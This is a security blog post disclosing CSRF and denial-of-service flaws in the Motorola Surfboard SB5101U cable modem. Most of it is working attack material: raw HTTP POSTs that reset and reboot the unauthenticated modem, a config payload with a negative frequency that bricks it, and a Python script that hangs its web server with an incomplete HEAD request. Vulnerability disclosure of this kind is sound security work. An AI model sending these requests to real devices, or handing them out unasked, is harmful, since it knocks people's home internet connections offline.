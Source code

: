 ```yaml
---
categories:
- modem
- motorola
- dos
comments: false
date: "2013-04-20T23:06:45Z"
title: Motorola Surfboard - Multiple Vulnerabilities
---
```


It would appear that these vulnerabilities were disclosed a few years ago ([CVE-2008-2002](http://www.cvedetails.com/cve/CVE-2008-2002/) and [CVE-2006-5196](http://www.cvedetails.com/cve/CVE-2006-5196/)), but my relatively new (1-2 years) Motorola Surfboard SB5101U (verified against both the 101 and 101U), loaded with SB5101NU-2.1.7.0-GA-00-388-NOSH, appears to be vulnerable to the same CSRF's exposed prior.  With no authentication system in place at all, it would appear that a local DoS is not much of a concern to them.  It's interesting that, despite the sudden flood of discovered vulnerabilities in routers, nobody is really taking a look at the other piece of hardware between you and the ISP.  As I poked about this modem, I discovered a few other interesting things.

First, here's the POST to reset the modem to factory defaults:

```
POST /goform/RgConfig HTTP/1.1
Host: 192.168.100.1
Proxy-Connection: keep-alive
Content-Length: 34
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Origin: http://192.168.100.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.22 (KHTML, like Gecko) Chrome/25.0.1364.172 Safari/537.22
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.100.1/RgConfig.asp
Accept-Encoding: gzip,deflate,sdch
Accept-Language: en-US,en;q=0.8
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.3

RestoreFactoryDefault=1&ResetReq=0
```

And the POST for restarting the modem:

```
POST /goform/RgConfig HTTP/1.1
Host: 192.168.100.1
Proxy-Connection: keep-alive
Content-Length: 34
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Origin: http://192.168.100.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.22 (KHTML, like Gecko) Chrome/25.0.1364.172 Safari/537.22
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.100.1/RgConfig.asp
Accept-Encoding: gzip,deflate,sdch
Accept-Language: en-US,en;q=0.8
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.3

RestoreFactoryDefault=0&ResetReq=1
```

This page also appears to allow the user the ability to modify modem settings by intercepting the response and modifying a javascript flag:

{{< figure class="center" src="http://3.bp.blogspot.com/-SJ6LsHU8-28/UVeuZzI105I/AAAAAAAAAcM/5T3qv2jygZI/s640/config_mod.jpg" >}}

Once we flip the flag var from 1 to 0, we have write access via the web interface.  The write POST is as follows:

```
POST /goform/RgConfig HTTP/1.1
Host: 192.168.100.1
Proxy-Connection: keep-alive
Content-Length: 125
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Origin: http://192.168.100.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.22 (KHTML, like Gecko) Chrome/25.0.1364.172 Safari/537.22
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.100.1/RgConfig.asp
Accept-Encoding: gzip,deflate,sdch
Accept-Language: en-US,en;q=0.8
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.3

CmFrequencyPlan=0&CmUpChannelId=1&CmDownstreamFreq=843000000&CmDhcpServer=on&saveChanges=1&RestoreFactoryDefault=0&ResetReq=0
```

With this we can totally brick the device (that is, until someone figures all this out) by modifying the stream frequency as follows:

```
CmFrequencyPlan=0&CmUpChannelId=0&CmDownstreamFreq=-843000000&CmDhcpServer=on&saveChanges=1&RestoreFactoryDefault=0&ResetReq=0
```

This can be fixed by simply restoring the configuration to the factory default through the web interface.  However: with an incomplete HTTP HEAD request, we can completely DoS the web server rendering any attempt to access it from the local network moot.  The code:

```
import socket

request = 'HEAD / HTTP/1.1\r\n'\
          'Connection: Keep-Alive\r\n'\
          'Content-Length: 50\r\n'\
          'Host: 192.168.100.1\r\n\r\n'
try:
    sock = socket.socket()
    sock.connect(('192.168.100.1', 80))
    sock.send(request)
    print 'Holding the flag...'
    data = sock.recv(1024)
except Exception, e: print e
except KeyboardInterrupt: sock.close()
```

Because the web server does not have the entire request, it waits for it in another packet.  Which, of course, never arrives.  We can test this by removing the Content-Length field, which will automatically then close the socket.  Between these two vulnerabilities, the modem is essentially rendered useless until hard booted.
